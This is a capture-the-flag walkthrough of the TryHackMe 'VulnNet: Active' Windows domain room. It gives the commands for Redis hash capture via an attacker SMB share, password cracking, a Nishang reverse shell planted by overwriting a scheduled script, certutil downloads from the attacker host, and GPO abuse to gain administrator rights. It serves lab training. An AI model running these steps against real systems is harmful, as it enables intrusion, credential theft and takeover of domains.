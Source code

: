 # VulnNet: Active

**Room Link:** [https://tryhackme.com/r/room/vulnnetactive](https://tryhackme.com/r/room/vulnnetactive)

## **Scans** <a href="#scans" id="scans"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (873).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (875).png" alt=""><figcaption></figcaption></figure>

## **TCP/139 - NetBIOS** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

**Kali**

```
nbtscan $VICTIM
```

<figure><img src="../../.gitbook/assets/image (874).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
enum4linux $VICTIM
```

<figure><img src="../../.gitbook/assets/image (876).png" alt=""><figcaption></figcaption></figure>



## **TCP/445 - SMB**

No results. Couldn't login anonymously.&#x20;

**Kali**

```
smbclient -L //$VICTIM/ 
```

## **TCP/6379 - Redis** <a href="#tcp-139-netbios" id="tcp-139-netbios"></a>

Added active.thm

**Kali**

```
redis-cli -h active.thm
```

**Kali(redis-cli)**

```
config get *
```

<figure><img src="../../.gitbook/assets/image (877).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (879).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
responder -I ens5 -dvw  
```

**Kali(redis-cli)**

```
eval "dofile('//$KALI/share')" 0
```

<figure><img src="../../.gitbook/assets/image (880).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<figure><img src="../../.gitbook/assets/image (881).png" alt=""><figcaption></figcaption></figure>



## **TCP/445 - SMB**

**Kali**

```
smbclient -L //$VICTIM/ -U enterprise-security
Password: sand_0873959498
```

<figure><img src="../../.gitbook/assets/image (882).png" alt=""><figcaption></figcaption></figure>

#### Download files <a href="#download-files-1" id="download-files-1"></a>

**Kali**

```
smbclient \\\\$VICTIM\\Enterprise-Share -U enterprise-security
Password: sand_0873959498
```

**Kali(smbclient)**

```
ls
mget *
```

<figure><img src="../../.gitbook/assets/image (883).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat PurgeIrrelevantData_1826.ps1
```

<figure><img src="../../.gitbook/assets/image (885).png" alt=""><figcaption></figcaption></figure>

## **Initial Shell**

**Kali**

```
git clone https://github.com/samratashok/nishang.git
cd nishang/Shells/
subl Invoke-PowerShellTcp.ps1
```

**Kali(subl)**

```
Invoke-PowerShellTcp -Reverse -IPAddress $KALI -Port 4444
```

<figure><img src="../../.gitbook/assets/image (884).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cp Invoke-PowerShellTcp.ps1 PurgeIrrelevantData_1826.ps1
```

**Upload payload**

**Kali(smbclient)**

```
put PurgeIrrelevantData_1826.ps1
```

After a few moments we get a connection

**Kali**

<pre><code><strong>rlwrap nc -lvnp 4444
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (886).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation&#x20;

### Download SharpHound PS1

This failed because when running the script it would just hang and I had to reset the server. So After I tried with the exe.

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git
cp BloodHound/Collectors/SharpHound.ps1 .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpHound.ps1 SharpHound.ps1
powershell -ep bypass
.\SharpHound.ps1 
```

### Download SharpHound EXE

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git
cp BloodHound/Collectors/SharpHound.exe .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpHound.exe SharpHound.exe
SharpHound.exe
```

### **Transfer results to Kali**

**Victim(Powershell)**

```
copy 20240405092615_BloodHound.zip C:\Enterprise-Share\
```

**Kali(smbclient)**

```
get 20240405092615_BloodHound.zip
```

### BloodHound  <a href="#bloodhound-installation" id="bloodhound-installation"></a>

**Kali #1**

```
neo4j console
```

**Kali #2**

```
bloodhound --no-sandbox
```

We can just drag the zip file to bloodhound to import it.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Find Shortest Paths to Domain Admins

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Our user enterprise-security has write access to the GPO called "SECURITY-POL-VN"

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### SharpGPOAbuse

**Kali**

```
git clone https://github.com/byronkg/SharpGPOAbuse.git
cp SharpGPOAbuse/SharpGPOAbuse-master/SharpGPOAbuse.exe .
python2 -m SimpleHTTPServer 82
```

**Victim(Powershell)**

```
certutil -urlcache -f http://$KALI:82/SharpGPOAbuse.exe SharpGPOAbuse.exe
```



This task is running one command which is to add our user enterprise-security to the administrator group

**Victim(Powershell)**

```
 .\SharpGPOAbuse.exe --AddComputerTask --TaskName "privesc" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
```

<figure><img src="../../.gitbook/assets/image (888).png" alt=""><figcaption></figcaption></figure>

After the change is successful we just need to push the GPU for it to work.

**Victim(Powershell)**

```
 gpupdate /force
```

<figure><img src="../../.gitbook/assets/image (889).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
psexec.py enterprise-security:sand_0873959498@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


